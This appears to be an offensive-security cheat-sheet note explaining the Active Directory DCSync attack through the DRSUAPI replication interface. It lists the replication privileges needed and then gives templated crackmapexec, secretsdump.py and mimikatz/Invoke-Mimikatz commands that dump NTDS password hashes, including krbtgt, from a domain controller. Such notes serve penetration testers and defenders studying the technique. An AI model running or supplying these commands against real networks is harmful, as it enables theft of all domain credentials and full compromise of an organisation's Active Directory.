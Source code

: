 ###### DCSync (DRSUAPI)

The `DCSync` attack consists in leveraging the Active Directory `DRSUAPI`
replication functions (part of the `Directory Replication Service (DRS)`
protocol) to remotely retrieve the specified Active Directory objects' sensible
information. The `DRSUAPI` functions are normally used by the
`Domain Controllers` to replicate the modifications made to AD objects and keep
the AD objects consistent across all the `Domain Controllers` of the forest.
The `DRSUAPI` replication functions are exposed on the network by the
`Microsoft Remote Procedure Call (MSRPC)` `DRSUAPI` interface on each `Domain
Controller`. Thus, contrary to the others methods explicated so far, no local
code execution on a `Domain Controller` is required to retrieve information
from the `ntds.dit` database.

While multiples `DRSUAPI` intermediate functions are used in the replication
process, the `DSGetNCChanges` function implements the replication request.

The following privileges on the `domain root object` are necessary to make
replication requests through the `DRSUAPI`:
  - Replicating Directory Changes (`Ds-Replication-Get-Changes`,
    `ACE GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`)
  - Replicating Directory Changes All (`Ds-Replication-Get-Changes-All`,
    `ACE GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`)

Those privileges are, in a default Active Directory configuration, granted to
the `Domain Controllers`, `ENTERPRISE DOMAIN CONTROLLERS`, `Domain Admins`,
`Enterprise Admins` and `Administrators` domain groups. For more information on
how to retrieve, and potentially exploit, the privileges configured on the
`domain root object`, refer to the `[ActiveDirectory] ACL exploiting` note.

```
# Wrap around secretsdump.py. May however encounter problems if using a Domain Controller machine account NTLM hash.
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds drsuapi
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds drsuapi
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds drsuapi
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds drsuapi

# Static stand-alone secretsdump binaries for Windows and Linux x64 available at: https://github.com/ropnop/impacket_static_binaries
secretsdump.py -dc-ip <DC_IP> -just-dc-user "<krbtgt | USERNAME>" "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -dc-ip <DC_IP> "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -hashes <LM_HASH:NTLM_HASH> <DOMAIN>/<USERNAME>@<DOMAIN | DC_IP>"

# If an error "0x00000003 (3) - ERROR_NOT_UNIQUE" is returned, the domain of the user should be specified as well (<DOMAIN\USERNAME>).
mimikatz # lsadump::dcsync /domain:<DOMAIN_FQDN> /dc:<DC_FQDN> [/all | /user:<krbtgt | USERNAME | DOMAIN\USERNAME>]

Invoke-Mimikatz -Command '"/domain:<DOMAIN_FQDN> /dc:<DC_FQDN> [/all | /user:<krbtgt | USERNAME | DOMAIN\USERNAME>]"'
```
